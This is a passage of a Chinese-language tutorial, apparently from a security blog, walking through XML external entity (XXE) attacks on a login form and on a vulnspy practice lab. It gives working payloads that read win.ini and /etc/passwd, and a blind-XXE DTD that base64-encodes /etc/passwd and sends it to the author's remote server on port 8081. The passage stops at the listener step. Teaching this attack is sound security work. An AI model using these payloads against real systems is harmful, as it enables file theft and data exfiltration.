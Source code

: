 我们先抓包，看一下

![1612762632_6020ce08a8e07080eb6af.png!small](https://image.3001.net/images/20210208/1612762632_6020ce08a8e07080eb6af.png!small)

传输类型是xml，通过post传输的数据。然后看一下返回的响应包

![1612762651_6020ce1b497d7ebed12b6.png!small](https://image.3001.net/images/20210208/1612762651_6020ce1b497d7ebed12b6.png!small)

发现，响应包返回的信息中，有username的值admin。

那么我么尝试构造payload来构造外部实体admin处的注入，利用协议读取文件

```
网站在window系统上搭建：
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "file:///c:/windows/win.ini"> ]>
<user><username>&xxes;</username><password>admin</password></user>
网站在linux系统上搭建：
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "file:///etc/passwd"> ]>
<user><username>&xxes;</username><password>admin</password></user>
```

![1612762676_6020ce34758d109d93631.png!small](https://image.3001.net/images/20210208/1612762676_6020ce34758d109d93631.png!small)

成功读取了c盘下win.in文件。

这种情况是提交请求后，响应有回显的时候。但是有时候没有回显的时候就可以使用Blind xxe。

**2.2 文件读取（无回显blind xxe）**

blind xxe虽然不回显信息，但是可以利用file协议来读取文件。对于这种情况，就可以用到参数实体了。用下面这个靶场演示一下

靶场地址：https://www.vulnspy.com/phpaudit-xxe/

在输入框输入构造的xxe代码，抓取请求包

![1612762705_6020ce5196139a5856d76.png!small](https://image.3001.net/images/20210208/1612762705_6020ce5196139a5856d76.png!small)

我们看到将我们提交的xxe代码，放在date里面，响应包没有返回我们要查询的信息，只有ok输出在页面上。

![1612762723_6020ce6352a52c6a59ce6.png!small](https://image.3001.net/images/20210208/1612762723_6020ce6352a52c6a59ce6.png!small)

对于没有回显，就要利用http协议将请求发送到远程服务器上，从而获取文件的内容。那么在我们自己的服务器上，写一个dtd文件

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://39.107.90.188:8081/%file;'>">
```

![1612762763_6020ce8bec987365de8fa.png!small](https://image.3001.net/images/20210208/1612762763_6020ce8bec987365de8fa.png!small)

然后在服务其上监听8081端口

![1612762783_6020ce9f405d8fcd18392.png!small](https://image.3001.net/images/20210208/1612762783_6020ce9f405d8fcd18392.png!small)
